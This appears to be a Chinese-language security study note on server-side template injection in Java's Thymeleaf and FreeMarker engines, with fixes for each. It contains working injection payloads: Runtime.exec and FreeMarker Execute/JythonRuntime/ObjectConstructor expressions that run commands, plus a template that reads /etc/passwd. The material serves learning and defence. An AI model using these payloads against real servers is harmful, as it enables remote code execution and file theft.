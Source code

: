 
Velocity、FreeMarker以及Thymeleaf三个模板注入。
<https://forum.butian.net/share/1661>
<https://www.cnblogs.com/LittleHann/p/17846825.html#_label1>

SSTI:Server Side Template Injection，即服务端模板注入。
在Web开发中，为了使用户界面与业务数据分离，提升开发效率，因此会使用模板引擎来生成一个标准的HTML文档用来数据的展示。
作为视图层，常见于前后端不分离的项目。

## **Thymeleaf模板注入**
```
__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("calc").getInputStream()).next()}__::.x

__${T(java.lang.Runtime).getRuntime().exec("calc")}__::feng
```


####  **修复方案**
1. 设置ResponseBody注解
如果设置`ResponseBody`，则不再调用模板解析

2. 设置redirect重定向
```
@GetMapping("/safe/redirect")
public String redirect(@RequestParam String url) {
    return "redirect:" + url; //CWE-601, as we can control the hostname in redirect
```
根据spring boot定义，如果名称以`redirect:`开头，则不再调用`ThymeleafView`解析，调用`RedirectView`去解析`controller`的返回值

3. response
```
@GetMapping("/safe/doc/{document}")
public void getDocument(@PathVariable String document, HttpServletResponse response) {
    log.info("Retrieving " + document); //FP
}
```
由于controller的参数被设置为HttpServletResponse，Spring认为它已经处理了HTTP Response，因此不会发生视图名称解析



^
## **Freemarker模板注入**
引入并使用Freemarker模板就可能存在注入
<https://tttang.com/archive/1412/#toc_api>

通过使用内置函数new，可创建任意实现了`TemplateModel`接口的Java对象，借助`freemarker.template.utility.JythonRuntime`、`freemarker.template.utility.Execute`、`freemarker.template.utility.ObjectConstructor`这三个类可以实现RCE：

```
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc")</@value>
<#assign value="freemarker.template.utility.Execute"?new()>${value("calc")}
<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","open -a Calculator").start()}
```
或者使用内置的api函数来调用恶意类、读取文件：
```
<#assign classLoader=object?api.class.getClassLoader()>${classLoader.loadClass("Evil.class")}

<#assign uri=object?api.class.getResource("/").toURI()>
  <#assign input=uri?api.create("file:///etc/passwd").toURL().openConnection()>
  <#assign is=input?api.getInputStream()>
  FILE:[<#list 0..999999999 as _>
      <#assign byte=is.read()>
      <#if byte == -1>
          <#break>
      </#if>
  ${byte}, </#list>]
```

#### **漏洞修复**

通过setNewBuiltinClassResolver(TemplateClassResolver.SAFER\_RESOLVER)来设置解析规则：

1、UNRESTRICTED\_RESOLVER：可以通过 `ClassUtil.forName(className)` 获取任何类。 
2、SAFER\_RESOLVER：不能加载 `freemarker.template.utility.JythonRuntime`、`freemarker.template.utility.Execute`、`freemarker.template.utility.ObjectConstructor`这三个类。 
3、ALLOWS\_NOTHING\_RESOLVER：不能解析任何类。 可通过`freemarker.core.Configurable#setNewBuiltinClassResolver`方法设置`TemplateClassResolver`，从而限制通过`new()`函数对`freemarker.template.utility.JythonRuntime`、`freemarker.template.utility.Execute`、`freemarker.template.utility.ObjectConstructor`这三个类的解析。



